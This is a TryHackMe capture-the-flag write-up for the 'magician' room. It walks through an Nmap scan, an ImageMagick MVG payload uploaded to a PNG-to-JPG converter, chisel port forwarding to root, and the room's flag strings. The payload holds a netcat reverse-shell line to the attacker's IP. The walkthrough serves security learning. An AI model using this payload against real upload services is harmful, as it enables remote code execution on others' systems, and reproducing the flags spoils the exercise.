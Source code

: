 ## magician - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/magician)

<i>Note: this machine needs about 7 minutes to start up, please be patient :)

Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
On Windows, the hosts file should be at C:\Windows\System32\drivers\etc\hosts.

Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

Have fun and use your magic skills!</i>

**IP: 10.10.167.76**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Web <br>

**Tools Used**: Nmap, Chisel<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- First add IP to `/etc/hosts` and then do the Nmap scan.

  ```
  nmap -sC -sV -T5 -p- magician

  PORT     STATE SERVICE VERSION
  21/tcp   open  ftp     vsftpd 2.0.8 or later
  8080/tcp open  http    Apache Tomcat (language: en)
  |_http-title: Site doesn't have a title (application/json).
  8081/tcp open  http    nginx 1.14.0 (Ubuntu)
  |_http-title: magician
  |_http-server-header: nginx/1.14.0 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- Visited the web page `http://magician:8081/` where you can convert `.png` to `.jpg`. I instantly googled convert png exploit and found that PayloadsAllTheThings have everything I need. This is the exploit for reverse shell.

  ```
  cat img.png
  push graphic-context
  encoding "UTF-8"
  viewbox 0 0 1 1
  affine 1 0 0 1 0 0
  push graphic-context
  image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc [YOUR-THM-IP] 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
  pop graphic-context
  pop graphic-context
  ```
  
- Start a listener and upload shell, you should get a connection.

  ```
  nc -lvnp 4444           
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.167.76] 53524
  whoami
  magician
  id
  uid=1000(magician) gid=1000(magician) groups=1000(magician)
  ```

- Change it to putty and start looking for flags.

---

## 🧍 User Privilege Escalation

- First flag is already there with additional note.

  ```
  magician@magician:/home$ cd magician/
  magician@magician:~$ ls -la
  total 17204
  drwxr-xr-x 5 magician magician     4096 Feb 13  2021 .
  drwxr-xr-x 3 root     root         4096 Jan 30  2021 ..
  lrwxrwxrwx 1 magician magician        9 Feb  6  2021 .bash_history -> /dev/null
  -rw-r--r-- 1 magician magician      220 Apr  4  2018 .bash_logout
  -rw-r--r-- 1 magician magician     3771 Apr  4  2018 .bashrc
  drwx------ 2 magician magician     4096 Jan 30  2021 .cache
  drwx------ 3 magician magician     4096 Jan 30  2021 .gnupg
  -rw-r--r-- 1 magician magician      807 Apr  4  2018 .profile
  -rw-r--r-- 1 magician magician        0 Jan 30  2021 .sudo_as_admin_successful
  -rw------- 1 magician magician     7546 Jan 31  2021 .viminfo
  -rw-r--r-- 1 root     root     17565546 Jan 30  2021 spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
  -rw-r--r-- 1 magician magician      170 Feb 13  2021 the_magic_continues
  drwxr-xr-x 2 root     root         4096 Feb  5  2021 uploads
  -rw-r--r-- 1 magician magician       24 Jan 30  2021 user.txt
  
  magician@magician:~$ cat user.txt 
  THM{simsalabim_hex_hex}
  ```

  ```
  magician@magician:~$ cat the_magic_continues 
  The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
  ```
  
- Now let's get the root flag.

---

## 👑 Root Privilege Escalation

- Note was pretty helpful, I ran `netstat -l` and found a way to root.

  ```
  magician@magician:~$ netstat -l
  Active Internet connections (only servers)
  Proto Recv-Q Send-Q Local Address           Foreign Address         State      
  tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN
  [SNIP!]
  ```
  
- Now it's `chisel` time, move the binary to target machine and start `chisel` from your Kali. From target machine run chisel client and after it visit `localhost:PORT` and you can read the flag there with simple command.

  ```
  KALI:
  chisel server --reverse --port 9999

  TARGET:
  /chisel client [YOUR-THM-IP]:9999 R:8888:127.0.0.1:6666

  visit localhost:8888
  ```
  
- Root flag is encoded so do some decoding as well.

---

## 🏁 Flags

- **User Flag**: `THM{simsalabim_hex_hex}`
- **Root Flag**: `THM{magic_may_make_many_men_mad}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding my way around finishing the CTF.`

- What did I learn?
  `Practiced port forwarding and learned new file upload vulnerability.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
